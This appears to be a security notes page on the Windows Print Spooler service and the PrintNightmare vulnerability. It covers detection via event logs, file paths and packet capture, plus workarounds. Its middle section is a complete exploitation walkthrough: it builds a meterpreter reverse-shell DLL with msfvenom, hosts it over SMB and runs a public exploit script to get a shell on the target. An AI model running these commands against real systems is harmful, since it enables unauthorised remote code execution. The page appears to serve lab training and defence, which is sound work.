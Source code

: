 ```yaml
---
title: Windows Print Spooler Service
description: A service that is running on each computer that participates in the Print Services system. It uses any port between 49152 and 65535. It may be vulnerable to the PrintNightmare (CVE-2021-1675 / CVE-2021-34527).
tags:
    - Printer
    - Windows
refs:
    - https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527
    - https://tryhackme.com/room/printnightmarehpzqlp8
date: 2023-08-03
draft: false
---
```


## Investigation

```powershell
# Check if the Print Spooler service is running
Get-Service -Name Spooler
```

<br />

## Detection

### Services

1. Open Services.
2. We can find the Print Spooler on the Right Pane.
3. Double-click on it and see the details.

### Malicious DLL Location

```txt
C:\Windows\System32\spool\drivers\x64\3\
```

### Event Viewer

Open Event Viewer, and find event logs in the following directory in the left pane.  
If you want to filter by Event ID, use **"Filter Current Log"** in the right pane.

- Application and Services Logs/Microsoft/Windows/PrintService/Admin (Event ID: 808)
- Application and Services Logs/Microsoft/Windows/PrintService/Operational (Event ID: 316, 811)
- Application and Services Logs/Microsoft/Windows/SMBClient/Security (Event ID: 31017)
- Application and Services Logs/Microsoft/Windows/Sysmon/Operational (Event ID: 3, 11, 23, 26)
- Windows Logs/System (Event ID: 7031)

### Packet Analysis (Wireshark)

Open .pcap file with Wireshark.

Filter packets with **"smb"** or **"smb2"**.

<br />

## PrintNightmare

This is security vulnerability to remote code execution in print spooler service.  
It requires authentication (username/password).

### 1. Clone the Repository

```sh
git clone https://github.com/cube0x0/CVE-2021-1675
```

### 2. Create a Malicious DLL using Msfvenom

```sh
mkdir share
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<local-ip> LPORT=<local-port> -f dll -o ./share/malicious.dll
```

### 3. Start Metasploit and Reverse TCP

```sh
msfconsole

msf > use exploit/multi/handler
msf > set payload windows/x64/meterpreter/reverse_tcp
msf > set lhost <local-ip>
msf > set lport <local-port>

msf > run -j

# Started reverse tcp

msf > jobs
```

### 4. Host the Malicious DLL

```sh
impacket-smbserver share ./share/  -smb2support
```

### 5. Examine the Target Fits the Criteria to Exploit It

```sh
impacket-rpcdump @<target-ip> | egrep 'MS-RPRN|MS-PAR'
# Protocol: [MS-RPRN]: Print System Remote Protocol 
# Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol
```

### 6. Run the Exploit

```sh
cd CVE-2021-1675
python3 CVE-2021-1675.py Domain.Controller.local/<username>:<password>@<remote-ip> '\\<local-ip>\share\malicious.dll'
```

Now we should get a target shell in msfconsole.

### 7. Interact with Target System

Enter the target system via msfconsole.

```sh
msf> sessions
msf> sessions -i <session-id>
meterpreter> shell

C:\Windows\system32> whoami
```

<br />

## Workarounds

```powershell
# Disable the Print Spooler service
Stop-Service -Name Spooler -Force
Set-Service -Name Spooler -StartupType Disabled
```